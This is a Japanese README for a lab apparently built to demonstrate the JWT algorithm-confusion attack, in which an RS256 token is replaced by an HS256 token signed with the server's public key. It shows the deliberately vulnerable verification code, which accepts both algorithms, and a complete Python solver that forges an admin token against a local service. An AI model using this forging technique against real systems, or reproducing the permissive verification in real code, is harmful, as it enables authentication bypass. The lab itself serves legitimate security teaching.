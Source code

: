 # Trial2
アルゴリズムをRS256からHS256に変更する攻撃を検証するためのラボ環境。

[APIのソースコード](./index.js)

以下のエンドポイントが存在。
- サインインエンドポイント（`/signin`）
  - `username`と`password`を受け取り、該当のユーザーが存在するか確認。
  - `username`と`password`が正しければJWTを発行して返送する。
- flag取得エンドポイント（`/flag`）
  - JWTを受け取り、検証する。
  - 検証が成功し、`username`が`admin`の場合flagを返す。

## 解説
サインインエンドポイント（`/signin`）では認証が成功すると、アルゴリズムがRS256のJWTが発行される。

```js
signed = jwt.sign({
    username: username,
},
    readKeyFromFile("keys/private.key"), 
    { algorithm: "RS256", expiresIn: "1h" } 
);
```

flag取得エンドポイント（`/flag`）のJWT検証部分に脆弱性が存在。

検証時のアルゴリズムがHS256が許可されているため、アルゴリズムがHS256かつ共通鍵としてRS256の公開鍵を使用するJWTが受け入れられる状態になっている。

```js
verified = jwt.verify(
    req.header("Authorization"),
    readKeyFromFile("keys/public.key"),
    { algorithms: ["RS256", "HS256"] }
);
```

JWTのペイロードにおける`username`が`admin`の場合にflagが取得できる。

```js
if (verified.username === "admin") {
      res.send(`Congratulations! Here"s your flag: ${FLAG}`);
      return;
}
```

つまり、ペイロードにおける`username`が`admin`であり、アルゴリズムがHS256かつ共通鍵としてRS256の公開鍵を使用するJWTを作成して`/flag`に送信することでflagが取得できる。

以下の[solver](./solver.py)を実行することで、攻撃を検証可能。

PyJWTライブラリが古いバージョンの`0.4.3`でないと今回使用したいJWTが生成できないため、標準ライブラリを用いて実装している。

```py
import requests
import json
import base64
import hmac
import hashlib

HOST = "http://localhost:5503"

pubkey = """-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEA3NcjHBbKAAhJd6P+TviV
h/WRXtxtKBJLPQYIlmZ/I35WlQLpNXR9Q0YiQLMNW0E3MTHISQlQE5hBF8S2Z2tC
0SmiAMr3QQjaIA3vmefA/CXSp4YjIbKz75Nwzczk7spYiVwEbYoLOpovnl+KB6Tj
XJWCFXvgpL6xYu9Se8msgqVIl+cWANlmPdBuDRvF/7KUboHsdZsn1mL88JoTnk9u
sVp9PP+bpbcFEzwzfS+YkjwUhXFHHNPqsu9eKZZlpkRbl3lZzzxgX4G/bh3BkaCO
wp4Pv1ptk8NJH8N96USDw3Lpgc6wGReoyCBY7Dtg1a3IHNjQQwQg+rd+1yUUfPAe
qa9MbLWr3hYQn+9G4SxTwmWptGJLLjZMzfELtGxiZTHlnifP4nHSNJ8WdGJ63YU9
7LiwkWsE8BVIPi+f/oNIbhhgJzGSD57mkdN0wNloN0I+83/0g2TnVSvkSM5ow/E9
h2w/qaT9LfjtYiZbFFc95lwcaR1nUO/hmZ2okTt7Nh5tlefbvHNSyHMFuvTiEanI
xO2kJIXugy9h9pNAX8jlNHNQWT1WM5HI3t8aMcsucjOT9wTWh7Hl0qxrO4f7f2kP
HODGSRQ/uR9czPYtXP4HPAPUToZ9Xzc5Voj3Q/bzRcAnkKH6fmUOtLPd2XhTDTFl
A5kHBxj92CnlYq6/bQdXDy0CAwEAAQ==
-----END PUBLIC KEY-----"""

data = {
    "username": "guest",
    "password": "guest"
}

# /signin
signin_response = requests.post(f"{HOST}/signin", json=data)
print("/signin:", signin_response.text)
encoded_jwt = signin_response.headers['Authorization']
print("encoded jwt:", encoded_jwt)

# alg: HS256なJWTを作成
header = {
    "alg": "HS256",
    "typ": "JWT"
}

# Base64 encode the header and payload
encoded_header = base64.urlsafe_b64encode(json.dumps(header).encode()).rstrip(b'=').decode('utf-8')
encoded_payload = base64.urlsafe_b64encode(json.dumps({"username": "admin"}).encode()).rstrip(b'=').decode('utf-8')

# Create the signature
message = f"{encoded_header}.{encoded_payload}"
signature = hmac.new(pubkey.encode(), message.encode(), hashlib.sha256)
encoded_signature = base64.urlsafe_b64encode(signature.digest()).rstrip(b'=').decode('utf-8')

# Combine to form the JWT
hs256_jwt = f"{encoded_header}.{encoded_payload}.{encoded_signature}"
print("HS256 jwt:", hs256_jwt)

# /flag
flag_response = requests.get(f"{HOST}/flag", headers={"Authorization": hs256_jwt})
print("/flag", flag_response.text)
```
